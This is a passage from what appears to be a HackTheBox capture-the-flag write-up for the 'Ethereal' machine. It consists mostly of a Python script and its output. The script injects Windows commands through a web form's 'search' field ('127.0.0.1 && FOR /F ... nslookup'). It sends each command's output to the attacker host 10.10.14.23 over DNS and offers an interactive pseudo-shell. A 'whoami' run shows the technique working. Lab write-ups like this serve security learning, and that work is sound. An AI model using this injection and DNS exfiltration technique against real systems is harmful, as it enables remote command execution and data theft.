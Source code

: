 ```python
            data = s.recv(1024)
            if data[1] == 2: # A record
                print(data[13:-5])
    except Exception as e:
        print(e)
        print("[!] Done")
        return

def send(cmd, col):
    session = FuturesSession()
    session.post("http://ethereal.htb/p1ng/", data=
            {
                "__VIEWSTATE": "/wEPDwULLTE0OTYxODU3NjhkZD0G/ny1VOoO1IFda8cKvyAZexSk+Y22QbXBRP0gxbre",
                "__VIEWSTATEGENERATOR": "A7095145",
                "__EVENTVALIDATION": "/wEdAAOZvFNfMAAnpqKRCMR2SHn/4CgZUgk3s462EToPmqUw3OKvLNdlnDJuHW3p+9jPAN/siIFmy9ZoaWu7BT0ak0x7Uttp88efMu6vUQ1geHQSWQ==",
                "search": f"127.0.0.1 && FOR /F \"tokens={col}\" %g IN ('{cmd}') do (nslookup %g 10.10.14.23)",
                "ctl02": ""
            },
            proxies={"http": "127.0.0.1:8080"})

def shell():
    while 1:
        cmd = input("$> ")
        if cmd == "exit":
            s.close()
            exit()
        else:
            col = input("(col#)> ")
            if col == '':
                col = 1
            else:
                col = int(col)
            send(cmd, col)
            recv()

if __name__ == '__main__':
    shell()
```    

We still need to mess with the token parameter when we have output with spaces in it, but it make things but more manageable.

**whoami**

```bash
root@kali:~/hackthebox/Machines/Ethereal# ./exfil_alan.py 
$> whoami
(col#)> 
[+] Receiving data:
b'etherealalan'
```
